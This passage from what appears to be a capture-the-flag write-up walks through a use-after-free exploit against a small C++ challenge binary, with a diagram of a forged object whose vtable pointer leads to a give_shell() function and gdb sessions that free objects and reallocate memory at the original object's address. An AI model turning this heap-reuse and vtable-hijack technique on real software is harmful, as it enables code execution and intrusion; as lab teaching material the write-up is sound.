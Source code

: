 ```
:::console                  vtable
						    |--------------------------|
Fake man object			|-->| UNKNOWN DATA             |
|--------------------|  |   |--------------------------|
| vpointer (0x401568)|---   | function ptr1 (0x40117a) |----> Human::give_shell()
|--------------------|      |--------------------------|
| age (0x19)	     |	    | function ptr2 (0x4012d2) |----> Man::introduce()
|--------------------|	    |--------------------------|
| name (0x614e88)    |--|
|--------------------|  |
						|--> "Jack"
```
Let's make sure we can force this program to allocate memory at the address of the original `m` object, which we learned above was 0x614ea0. We'll try deleting the `m` and `w` objects using option 3. I'll use 24 as the argument to the program because that's how many bytes are allocated for the original `m` object by the program itself.

```
:::console
gef➤  b *0x00401025
Breakpoint 4 at 0x401025
gef➤  run e
Starting program: /home/jared/Documents/ctf/uaf/uaf 24 e
1. use
2. after
3. free
3
1. use
2. after
3. free
2
...
Breakpoint 4, 0x0000000000401025 in main ()
gef➤  i r $rax
rax            0x614ef0	0x614ef0
```

The char array was allocated at address 0x614ef0... not what we want. Let's try again:

```
:::console
gef➤  c
Continuing.
your data is allocated
1. use
2. after
3. free
2
...
Breakpoint 4, 0x0000000000401025 in main ()
gef➤  i r $rax
rax            0x614ea0	0x614ea0
```

